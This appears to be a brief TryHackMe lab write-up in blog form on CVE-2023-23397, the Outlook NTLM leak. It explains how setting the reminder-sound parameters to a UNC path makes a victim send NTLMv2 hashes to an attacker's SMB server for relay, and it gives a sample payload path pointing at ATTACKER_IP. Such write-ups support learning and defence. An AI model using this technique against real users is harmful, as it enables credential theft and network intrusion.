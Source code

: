 ```yaml
---
layout: post
title: "Outlook NTLM Leak"
date: 2023-06-04 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe","CVE-2023-23397"
---
```


# Outlook NTLM Leak
## CVE-2023-23397

**Scenario:**
*The victim recieves a malicous email that redirects them to the attacker's SMB Server. This happens by busing CVE-2023-23397.*

The exploit happens by manipulating the parameter of the reminder sound path location. Simply changing the path wont do anything. the **PidLidReminderFileParameter** should point to **Universal Naming Convention (UNC)** path instead of a local file. **PidLidReminderOverride** should be configured to true to be able to override the default the confirgurations.

When the Victim connects to the attacker's SMB server, the victim's remote server would send the NTLM. The attacker can use the NTLMv2 hash to authenticate by using the relay attack. 

```bash
\\ATTACKER_IP\foo\bar.wav
```

 

